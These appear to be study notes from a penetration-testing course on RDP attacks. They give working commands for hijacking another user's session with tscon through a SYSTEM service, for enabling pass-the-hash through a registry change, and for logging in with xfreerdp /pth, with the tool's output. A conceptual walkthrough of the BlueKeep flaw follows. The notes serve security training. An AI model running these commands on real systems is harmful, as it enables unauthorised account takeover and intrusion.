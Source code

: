 ## Protocol Specific Attacks
#### RDP Session Hijacking
_Note: This method no longer works on Server 2019._

![[Pasted image 20250224121356.png]]

To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session. It works by specifying which `SESSION ID` (`4` for the `lewen` session in our example) we would like to connect to which session name (`rdp-tcp#13`, which is our current session). So, for example, the following command will open a new console as the specified `SESSION_ID` within our current RDP session:

```cmd-session
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If we have local administrator privileges, we can use several methods to obtain `SYSTEM` privileges, such as [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) or [Mimikatz](https://github.com/gentilkiwi/mimikatz). A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges. We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary. First, we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute. Once we run the following command, a service named `sessionhijack` will be created.

```cmd-session
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-2-2.png)

To run the command, we can start the `sessionhijack` service :

```cmd-session
C:\htb> net start sessionhijack
```

Once the service is started, a new terminal with the `lewen` user session will appear. With this new account, we can attempt to discover what kind of privileges it has on the network, and maybe we'll get lucky, and the user is a member of the Help Desk group with admin rights to many hosts or even a Domain Admin.

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-3-2.png)

## RDP Pass-the-Hash (PtH)

If we only have the NT hash of the user obtained from a credential dumping attack such as [SAM](https://en.wikipedia.org/wiki/Security_Account_Manager) database, and we could not crack the hash to reveal the plaintext password? In some instances, we can perform an RDP PtH attack to gain GUI access to the target system using tools like `xfreerdp`.

There are a few caveats to this attack:

- `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-4.png)

This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`. It can be done using the following command:

#### Adding the DisableRestrictedAdmin Registry Key

```cmd-session
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-5.png)

Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access:

```shell-session
[!bash!]# xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9

[09:24:10:115] [1668:1669] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state            
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr                                   
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd                                  
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr                                 
[09:24:11:427] [1668:1669] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized                               
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state        
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - CN = dc-01.superstore.xyz                                                     
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - VERSION ={                                                              
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMajorVersion: 6                                           
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMinorVersion: 1                                           
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductBuild: 7601                                               
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        Reserved: 0x000000                                               
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        NTLMRevisionCurrent: 0x0F                                        
[09:24:11:567] [1668:1669] [INFO][com.winpr.sspi.NTLM] - negotiateFlags "0xE2898235"

<SNIP>

```

If it works, we'll now be logged in via RDP as the target user without knowing their cleartext password.

![](https://academy.hackthebox.com/storage/modules/116/rdp_session-6-2.png)

Keep in mind that this will not work against every Windows system we encounter, but it is always worth trying in a situation where we have an NTLM hash, know the user has RDP rights against a machine or set of machines, and GUI access would benefit us in some ways towards fulfilling the goal of our assessment.

## The Concept of the Attack

The vulnerability is also based, as with SMB, on manipulated requests sent to the targeted service. However, the dangerous thing here is that the vulnerability does not require user authentication to be triggered. Instead, the vulnerability occurs after initializing the connection when basic settings are exchanged between client and server. This is known as a [Use-After-Free](https://cwe.mitre.org/data/definitions/416.html) (`UAF`) technique that uses freed memory to execute arbitrary code.

#### The Concept of Attacks

![](https://academy.hackthebox.com/storage/modules/116/attack_concept2.png)

This attack involves many different steps in the kernel of the operating system, which are not of great importance here for the time being to understand the concept behind it. After the function has been exploited and the memory has been freed, data is written to the kernel, which allows us to overwrite the kernel memory. This memory is used to write our instructions into the freed memory and let the CPU execute them. If we want to look at the technical analysis of the BlueKeep vulnerability, this [article](https://unit42.paloaltonetworks.com/exploitation-of-windows-cve-2019-0708-bluekeep-three-ways-to-write-data-into-the-kernel-with-rdp-pdu/) provides a nice overview.

#### Initiation of the Attack

|**Step**|**BlueKeep**|**Concept of Attacks - Category**|
|---|---|---|
|`1.`|Here, the source is the initialization request of the settings exchange between server and client that the attacker has manipulated.|`Source`|
|`2.`|The request leads to a function used to create a virtual channel containing the vulnerability.|`Process`|
|`3.`|Since this service is suitable for [administering](https://docs.microsoft.com/en-us/windows/win32/ad/the-localsystem-account) of the system, it is automatically run with the [LocalSystem Account](https://docs.microsoft.com/en-us/windows/win32/ad/the-localsystem-account) privileges of the system.|`Privileges`|
|`4.`|The manipulation of the function redirects us to a kernel process.|`Destination`|

This is when the cycle starts all over again, but this time to gain remote access to the target system.

#### Trigger Remote Code Execution

|**Step**|**BlueKeep**|**Concept of Attacks - Category**|
|---|---|---|
|`5.`|The source this time is the payload created by the attacker that is inserted into the process to free the memory in the kernel and place our instructions.|`Source`|
|`6.`|The process in the kernel is triggered to free the kernel memory and let the CPU point to our code.|`Process`|
|`7.`|Since the kernel also runs with the highest possible privileges, the instructions we put into the freed kernel memory here are also executed with [LocalSystem Account](https://docs.microsoft.com/en-us/windows/win32/ad/the-localsystem-account) privileges.|`Privileges`|
|`8.`|With the execution of our instructions from the kernel, a reverse shell is sent over the network to our host.|`Destination`|

Not all newer Windows variants are vulnerable to Bluekeep, according to Microsoft. Security updates for current Windows versions are available, and Microsoft has also provided updates for many older Windows versions that are no longer supported. Nevertheless, `950,000` Windows systems were identified as vulnerable to `Bluekeep` attacks in an initial scan in May 2019, and even today, about `a quarter` of those hosts are still vulnerable.
